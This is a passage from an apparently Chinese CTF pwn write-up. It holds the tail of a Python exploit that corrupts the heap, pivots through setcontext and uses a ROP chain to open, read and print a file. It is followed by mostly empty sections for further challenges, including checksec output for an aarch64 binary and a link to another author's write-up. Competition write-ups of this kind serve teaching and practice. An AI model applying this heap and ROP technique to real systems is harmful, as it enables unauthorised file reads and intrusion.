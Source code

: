 ```python
add(0x78)
edit(p64(setcontext + 0x55))
free()
pd = p64(pop_rdi) + p64(heap_base + 0xe90)
pd += p64(pop_rax) + p64(2)
pd += p64(pop_rsi) + p64(0)
pd += p64(syscall)
pd += p64(pop_rdi) + p64(3)
pd += p64(pop_rsi) + p64(heap_base + 0x2000)
pd += p64(pop_rdx) + p64(0x200)
pd += p64(read)
pd += p64(pop_rdi) + p64(1)
pd += p64(write)
p.sendline(pd)
p.interactive()

```



### channel:

[附件](https://pan.baidu.com/s/1DSVm9FFYNs-60pJxMRd5Cg)

checksec：

> ```
>     Arch:     aarch64-64-little
>     RELRO:    Full RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      PIE enabled
> ```

#### 思路：

aarch64架构题目 借助本题好好学学架构题目

https://r1nd0.github.io/2021/05/17/CISCN2021%E7%BA%BF%E4%B8%8A%E8%B5%9B-pwn/#more

r1nd0师傅的wp

#### exp：



### game:

### 



#### SATools：







